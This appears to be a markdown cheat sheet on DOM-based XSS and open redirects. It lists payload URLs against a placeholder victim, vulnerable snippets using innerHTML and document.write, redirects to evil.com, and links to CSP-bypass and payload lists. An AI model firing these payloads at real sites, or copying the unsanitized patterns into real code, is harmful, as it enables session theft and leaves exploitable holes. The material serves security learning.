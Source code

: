 ### 1. **`document.URL` and `document.documentURI`**
Both return the URL of the current document. If inserted into a page without sanitization, they can be exploited for XSS.

**Example Payload URL:**
```bash
https://victim.com/page?url=<script>alert('XSS')</script>
```

**Code:**
```html
<p id="demo"></p>
<script>
    var url = document.URL;
    document.getElementById("demo").innerHTML = "Current URL: " + url;
</script>
```
If the URL parameter is displayed directly on the page, the script can execute without sanitization.

---

### 2. **`document.baseURI`**
This property returns the base URL of the document. It can lead to open redirects if used without validation.

**Example Open Redirect:**
```bash
https://victim.com/?redirect=https://evil.com
```

**Code:**
```html
<script>
    var redirectURL = document.baseURI + new URLSearchParams(window.location.search).get('redirect');
    window.location.href = redirectURL;
</script>
```
If `redirect` is processed without validation, users can be sent to a malicious site.

---

### 3. **`location` and `window.location`**
These refer to the current URL and are often used for XSS or open redirect if the URL data is used without validation.

**Example XSS Payload URL:**
```bash
https://victim.com/?name=<script>alert('XSS')</script>
```

**Code:**
```html
<p id="name"></p>
<script>
    var params = new URLSearchParams(window.location.search);
    var name = params.get('name');
    document.getElementById("name").innerHTML = "Hello " + name;
</script>
```
If the `name` parameter value is not sanitized, XSS can occur.

---

### 4. **`window.location.search`** (Accessing Query Parameters)
This returns the query string part of the URL. It can be dangerous if used to inject data into the DOM without sanitization.

**Example:**
```bash
https://victim.com/search?query=<img src=x onerror=alert(1)>
```

**Code:**
```html
<p id="searchResult"></p>
<script>
    var searchQuery = window.location.search;
    document.getElementById("searchResult").innerHTML = "Search result for: " + searchQuery;
</script>
```

---

### 5. **`fetch()` and `XMLHttpRequest`**
Both are used to retrieve data from a server. If the URL is taken from user parameters, this can lead to open redirects or SSRF.

**Example Open Redirect:**
```bash
https://victim.com/fetch?url=https://evil.com
```

**Code:**
```html
<script>
    var params = new URLSearchParams(window.location.search);
    var targetURL = params.get('url');
    fetch(targetURL)
        .then(response => response.text())
        .then(data => console.log(data));
</script>
```
If `fetch` is used with a user-provided URL without validation, it can result in an open redirect.

---

### 6. **`document.cookie`**
Used to get or set cookies. XSS can occur if a cookie is set with user input without sanitization.

**Example:**
```bash
https://victim.com/?cookie=<script>alert(document.cookie)</script>
```

**Code:**
```html
<script>
    var params = new URLSearchParams(window.location.search);
    var cookieValue = params.get('cookie');
    document.cookie = "user=" + cookieValue;
</script>
```
If the cookie value is set without sanitization, XSS can occur.

---

### 7. **`window.name`**
`window.name` can store data that is accessible across pages. It can be used for XSS if this value is inserted into a page.

**Example Payload:**
```bash
https://victim.com#"><img src=x onerror=alert(1)>
```

**Code:**
```html
<script>
    var windowName = window.name;
    document.write("Window name is: " + windowName);
</script>
```

---

### 8. **`history.pushState()` and `history.replaceState()`**
Both are used to manipulate the URL without reloading the page. If data from the URL is inserted into the page without sanitization, XSS can occur.

**Example XSS:**
```bash
https://victim.com/?state="><script>alert(1)</script>
```

**Code:**
```html
<script>
    var params = new URLSearchParams(window.location.search);
    var state = params.get('state');
    history.pushState({}, '', '?state=' + state);
    document.write("New URL is: " + window.location.href);
</script>
```

---

### 9. **`localStorage` and `sessionStorage`**
Data stored in `localStorage` or `sessionStorage` can be abused if accessed or set with unsafe input.

**Example XSS:**
```bash
https://victim.com/?payload="><script>alert(1)</script>
```

**Code:**
```html
<script>
    var params = new URLSearchParams(window.location.search);
    var payload = params.get('payload');
    localStorage.setItem('data', payload);
    document.write("Stored payload is: " + localStorage.getItem('data'));
</script>
```

**blocked by csp?**
- [https://raw.githubusercontent.com/RHYru9/rhyru9.github.io/refs/heads/main/bug/xss-cheatsheet/csp.txt](https://raw.githubusercontent.com/RHYru9/rhyru9.github.io/refs/heads/main/bug/xss-cheatsheet/csp.txt)

**xss without Prentheses**
- [https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md)
---
